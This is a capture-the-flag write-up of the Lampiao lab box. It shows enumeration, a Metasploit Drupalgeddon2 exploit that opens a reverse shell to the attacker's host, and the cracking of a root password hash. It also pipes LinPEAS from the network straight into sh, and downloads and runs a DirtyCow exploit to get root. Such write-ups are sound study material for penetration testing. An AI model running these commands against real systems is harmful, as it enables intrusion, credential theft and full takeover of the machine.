


# Lampiao (rough notes)

Initial service enumeration:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao]
└─$ nmap -v -p- -Pn -T4 lampiao
...

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1898/tcp open  cymtec-port
```

Now with service version fingerprinting:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao]
└─$ nmap -v -p 22,80,1898 -T4 -A lampiao
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   GetRequest: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Lampi\xC3\xA3o
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Great, so we have an SSH server on port 22 and HTTP servers on 80 and 1898.

The root path of the server on port 80:



> "Fi duma egua" translates to "I'm a mare" (portuguese).

The root path on the server on port 1898:



This is a drupal website, more promising in terms of pwning the remote machine.

Through this front page we learn about users `tiago` and `Eder` (from the two posts). It also seems like `Eder` is an admin... asumming by the fact that Eder is the publisher of the first article, in which they mention Node 2 is not working (so they likely are an admin).

In the HTML header of the page we find that this is Drupal 7:

```
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

We search for "drupal" on exploit-db, and there's A LOT we can try that may apply to version 7:


```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao]
└─$ searchsploit drupal 
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Drupal 10.1.2 - web-cache-poisoning-External-service-interaction                                    | php/webapps/51723.txt
Drupal 4.0 - News Message HTML Injection                                                            | php/webapps/21863.txt
Drupal 4.1/4.2 - Cross-Site Scripting                                                               | php/webapps/22940.txt
Drupal 4.5.3 < 4.6.1 - Comments PHP Injection                                                       | php/webapps/1088.pl
Drupal 4.7 - 'Attachment mod_mime' Remote Command Execution                                         | php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML Injection                                                       | php/webapps/27020.txt
Drupal 5.2 - PHP Zend Hash ation Vector                                                             | php/webapps/4510.txt
Drupal 5.21/6.16 - Denial of Service                                                                | php/dos/10826.sh
Drupal 6.15 - Multiple Persistent Cross-Site Scripting Vulnerabilities                              | php/webapps/11060.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                                   | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                                    | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                         | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                         | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                            | php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                                              | php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution                                                  | php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                                             | php/webapps/3313.pl
Drupal < 5.1 - Post Comments Remote Command Execution                                               | php/webapps/3312.pl
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                                       | php/webapps/33706.txt
Drupal < 7.34 - Denial of Service                                                                   | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                            | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                         | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                 | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)             | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                    | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploi | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                      | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                  | php/webapps/46459.py
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                   | php/webapps/44501.txt
Drupal avatar_uploader v7.x-1.0-beta8 - Cross Site Scripting (XSS)                                  | php/webapps/50841.txt
Drupal Module Ajax Checklist 5.x-1.0 - Multiple SQL Injections                                      | php/webapps/32415.txt
Drupal Module CAPTCHA - Security Bypass                                                             | php/webapps/35335.html
Drupal Module CKEditor 3.0 < 3.6.2 - Persistent EventHandler Cross-Site Scripting                   | php/webapps/18389.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting              | php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                     | php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                       | php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                             | php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                      | php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulner | php/webapps/35072.txt
Drupal Module MiniorangeSAML 8.x-2.22 - Privilege escalation                                        | php/webapps/50361.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                   | php/remote/40130.rb
Drupal Module Sections - Cross-Site Scripting                                                       | php/webapps/10485.txt
Drupal Module Sections 5.x-1.2/6.x-1.2 - HTML Injection                                             | php/webapps/33410.txt
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

In particular I think the "Drupalgeddon" findings seem quite promising. I'll try these in the following order:

- php/webapps/35150.php (`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)``)
- php/webapps/34984.py (`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)`)
- php/webapps/34993.php (`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)`)
- php/webapps/41564.php (`Drupal 7.x Module Services - Remote Code Execution`)

I kick off enumeration while I try those one by one:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao]
└─$ gobuster dir --url http://lampiao:1898/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x '.php,.html'
...

/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 281]
/index.php            (Status: 200) [Size: 11285]
/misc                 (Status: 301) [Size: 307] [--> http://lampiao:1898/misc/]
/themes               (Status: 301) [Size: 309] [--> http://lampiao:1898/themes/]
/modules              (Status: 301) [Size: 310] [--> http://lampiao:1898/modules/]
/scripts              (Status: 301) [Size: 310] [--> http://lampiao:1898/scripts/]
/sites                (Status: 301) [Size: 308] [--> http://lampiao:1898/sites/]
/includes             (Status: 301) [Size: 311] [--> http://lampiao:1898/includes/]
/install.php          (Status: 200) [Size: 3172]
/profiles             (Status: 301) [Size: 311] [--> http://lampiao:1898/profiles/]
/update.php           (Status: 403) [Size: 4054]
/cron.php             (Status: 403) [Size: 7295]
/xmlrpc.php           (Status: 200) [Size: 42]
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 281]
/server-status        (Status: 403) [Size: 289]
/authorize.php        (Status: 403) [Size: 2821]
```

None of those work so I try plan on trying a few more:

- php/webapps/44448.py (`Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)`)
- php/webapps/46459.py (`Drupal < 8.6.9 - REST Module Remote Code Execution `)
- php/remote/44482.rb [METASPLOIT: if all else fails] (`Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution`)

Okay we ended up using metasploit:


```
msf6 > search drupal

Matching Modules
================

   #   Name                                                              Disclosure Date  Rank       Check  Description
   -   ----                                                              ---------------  ----       -----  -----------
   0   exploit/unix/webapp/drupal_coder_exec                             2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1   exploit/unix/webapp/drupal_drupalgeddon2                          2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2     \_ target: Automatic (PHP In-Memory)                            .                .          .      .
   3     \_ target: Automatic (PHP Dropper)                              .                .          .      .
   4     \_ target: Automatic (Unix In-Memory)                           .                .          .      .
   5     \_ target: Automatic (Linux Dropper)                            .                .          .      .
   6     \_ target: Drupal 7.x (PHP In-Memory)                           .                .          .      .
   7     \_ target: Drupal 7.x (PHP Dropper)                             .                .          .      .
   8     \_ target: Drupal 7.x (Unix In-Memory)                          .                .          .      .
   9     \_ target: Drupal 7.x (Linux Dropper)                           .                .          .      .
   10    \_ target: Drupal 8.x (PHP In-Memory)                           .                .          .      .
   11    \_ target: Drupal 8.x (PHP Dropper)                             .                .          .      .
   12    \_ target: Drupal 8.x (Unix In-Memory)                          .                .          .      .
   13    \_ target: Drupal 8.x (Linux Dropper)                           .                .          .      .
   14    \_ AKA: SA-CORE-2018-002                                        .                .          .      .
   15    \_ AKA: Drupalgeddon 2                                          .                .          .      .
```

Choosing the module and showing options:

```
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.114    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)


View the full module info with the info, or info -d command.
```

Setting option values:

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST tun0
LHOST => 192.168.45.201
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS lampiao
RHOSTS => lampiao
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 1898
RPORT => 1898
```

Running the exploit:

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.45.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.214.48
[*] Meterpreter session 1 opened (192.168.45.201:4444 -> 192.168.214.48:42442) at 2024-03-31 19:58:35 -0700

meterpreter >
```

Spawning a shell:

```
meterpreter > shell
Process 7833 created.
Channel 0 created.
whoami
www-data
```

We find our access flag in `tiago`'s home directory:

```
cd /home
ls
tiago
cd tiago
ls
local.txt
cat local.txt
173ed68515357a6fc5d615cbf93ebeee
```

> So our assumption that username `Eder` was the admin was wrong.

From `/etc/passwd` we learn a hash for user `root`, looks like a `SHA512Crypt`:

```
cat /etc/passwd
root:$6$blDsHpU9$1.jyQg4uduSokEQ9Jgvo.5WkyUW52zP1XPT/PaA54y4y1ozS0WwrYcYUjfLZkBxx85gU2ROt5OpnoR5bDnbJX1:0:0:root:/root:/bin/bash
```

I will kick off hashcat in my local machine to try to crack the hash while we investigate further:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao/exploit]
└─$ echo '$6$blDsHpU9$1.jyQg4uduSokEQ9Jgvo.5WkyUW52zP1XPT/PaA54y4y1ozS0WwrYcYUjfLZkBxx85gU2ROt5OpnoR5bDnbJX1' >> hashes.txt

┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao/exploit]
└─$ hashcat hashes.txt /usr/share/wordlists/rockyou.txt 
...
```

Now its time for LinPEAS!

```
wget -O- --tries 1 --timeout 5 https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-04-01 00:04:54--  https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
...
```

The most notable findings are:

- Vulnerable/old version of the Linux Kernel

```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.4.0-31-generic (buildd@lgw01-01) (gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3) ) #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016
```

- MANY highly probably kernel exploits

```
+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,[ ubuntu=14.04 ]{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: highly probable
   Tags: [ ubuntu=14.04{kernel:4.4.0-*} ],ubuntu=16.04{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

along with some exploit suggestions:

```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010
```

Tried all 3, the first one compiled but didn't work; the second's exploited program (xorg) was not present. And the third did not compile due to lack of bpf related C header files:

```
gcc 45010-kernel.c -o cve-2017-16995
45010-kernel.c:49:23: fatal error: linux/bpf.h: No such file or directory
 #include <linux/bpf.h>
```

DirtyCow is usually reliable once its flagged. I try the exploit for DirtyCow in [this GitHub gist](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679)...

I serve it over HTTP from my Kali machine since the victim host cannot talk to the Internet.

> Note: before downloading it in the victim host, I modify the code to use the x86 instead of the x64 payload


Downloading it on the victim:

```
www-data@lampiao:/var/www/html/exploit$ wget http://192.168.45.201/cowroot.c
wget http://192.168.45.201/cowroot.c
--2024-04-01 00:49:01--  http://192.168.45.201/cowroot.c
...
```

Compiling the code into an executable:

```
www-data@lampiao:/var/www/html/exploit$ gcc cowroot.c -o dirtycow -pthread
gcc cowroot.c -o dirtycow -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
```

Running the exploit:

```
www-data@lampiao:/var/www/html/exploit$ ./dirtycow
./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
root@lampiao:/var/www/html/exploit# whoami
whoami
root
```

We get a shell as root! We quickly find our root proof in the root directory:

```
root@lampiao:/var/www/html/exploit# cd /root
cd /root
root@lampiao:/root# cat proof.txt
cat proof.txt
a8798df14bd153a0c972c7bb1bdd5323
```


